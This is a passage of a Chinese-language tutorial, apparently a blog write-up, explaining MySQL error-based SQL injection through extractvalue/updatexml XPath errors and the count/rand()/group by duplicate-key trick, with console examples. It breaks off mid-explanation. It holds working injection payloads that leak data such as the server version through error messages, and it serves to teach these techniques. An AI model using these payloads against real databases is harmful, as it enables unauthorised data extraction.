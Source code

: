 从mysql5.1.5开始提供两个XML查询和修改的函数，extractvalue和updatexml。extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容:

		mysql> select extractvalue(1,'/a/b');
		+------------------------+
		| extractvalue(1,'/a/b') |
		+------------------------+
		|                        |
		+------------------------+
		1 row in set (0.01 sec)

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：

		mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
		ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
		mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
		ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'

### 0x03 主键重复

这里利用到了count()和group by在遇到rand()产生的重复值时报错的思路。网上比较常见的payload是这样的：
	
		mysql> select count(*) from test group by concat(version(),floor(rand(0)*2));
		ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'

可以看到错误类型是duplicate entry，即主键重复。实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关：
		
		mysql> select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
		ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'

这种报错方法的本质是因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。举个例子，表中数据如下：

		mysql> select * from test;
		+------+-------+
		| id   | name  |
		+------+-------+
		| 0    | jack  |
		| 1    | jack  |
		| 2    | tom   |
		| 3    | candy |
		| 4    | tommy |
		| 5    | jerry |
		+------+-------+
		6 rows in set (0.00 sec)

我们以select count(*) from test group by name语句说明大致过程如下：
> 先是建立虚拟表，其中key为主键，不可重复：
